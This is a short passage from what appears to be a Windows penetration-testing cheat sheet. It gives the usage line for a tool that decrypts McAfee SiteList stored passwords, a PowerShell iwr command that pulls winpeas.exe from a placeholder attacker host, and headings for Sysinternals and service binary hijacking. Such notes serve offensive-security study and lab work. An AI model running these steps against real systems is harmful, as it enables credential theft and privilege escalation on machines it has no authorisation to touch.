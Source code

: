 ![image](https://github.com/user-attachments/assets/10ee983e-2e90-4dfb-9df5-e1eaaf7ecfa9)

- Crack the encrypted password string with this [tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

Usage-:```python mcafee_sitelist_pwd_decrypt.py <string>```

![image](https://github.com/user-attachments/assets/4b4f732e-4862-4678-915e-c1bc0ae2e58b)

-------------

### SYSINTERNAL utilties

-------------

- Sysinternal troubleshooting utilities
- [Link](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

-------------

###  Fixing Get-AppxPackage not installed Error

------------

- You have to import first with this command in an Admistrator prompt [`powershell start pwsh -v runAs`]

```powershell
 Import-Module Appx -UseWinPS
```

------------

### Reference

--------------

- [Stack Overflow](https://superuser.com/questions/1456837/powershell-get-appxpackage-not-working)

---------------

### Copying files with powershell `iwr`

----------------

- Powershell `iwr`

```pwsh
iwr -uri http://x.x.x.x/winpeas.exe -Outfile winpeas.exe
```
---------------

### Service Binary Hijacking

----------------
